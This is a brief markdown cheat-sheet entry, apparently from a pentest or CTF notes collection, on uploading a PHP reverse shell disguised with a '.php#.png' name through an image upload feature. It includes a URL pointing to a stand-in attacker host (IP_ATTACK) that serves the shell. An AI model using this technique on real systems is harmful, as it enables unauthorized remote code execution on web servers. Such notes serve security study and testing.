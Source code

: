 ```yaml
---
title: File uploading malware 💣
---
```


- **Shell shenanigans**:
  - If you can upload images and its working with php you can try this:
  - 1st get a reverse shell like one in [Reverse shells 👾](Reverse%20shells%20👾.md)
  - Then create a file like `shell.php#.png`
  - Serve a python server
  - Paste the path to it:

```shell
http://IP_ATTACK:8090/shell.php#.png
```
